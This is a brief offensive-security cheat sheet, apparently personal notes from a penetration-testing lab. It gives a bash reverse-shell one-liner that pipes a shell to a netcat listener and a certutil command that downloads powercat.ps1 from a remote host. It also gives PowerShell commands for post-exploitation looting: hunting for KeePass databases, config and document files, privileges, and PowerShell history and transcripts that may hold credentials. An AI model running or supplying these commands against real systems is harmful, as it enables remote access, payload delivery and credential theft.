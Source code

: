 nc reverseshell bash:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
download:
certutil -urlcache -f http://192.168.45.248:8000/powercat.ps1 c:/windows/temp/test

find .git files
```
Get-ChildItem . -Attributes Directory+Hidden -ErrorAction SilentlyContinue -Filter ".git" -Recurse
```
grep like powershell
```
Get-ChildItem -Recurse | Select-String "dummy" -List | Select Path
```

```
whoami /priv
```
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
```
Get-ChildItem -Path C:\Users\ -Include *.log,*.conf,*.config,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
```
(Get-PSReadlineOption).HistorySavePath
```
```
type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
```
type C:\Users\*\Transcripts\transcript01.txt
```
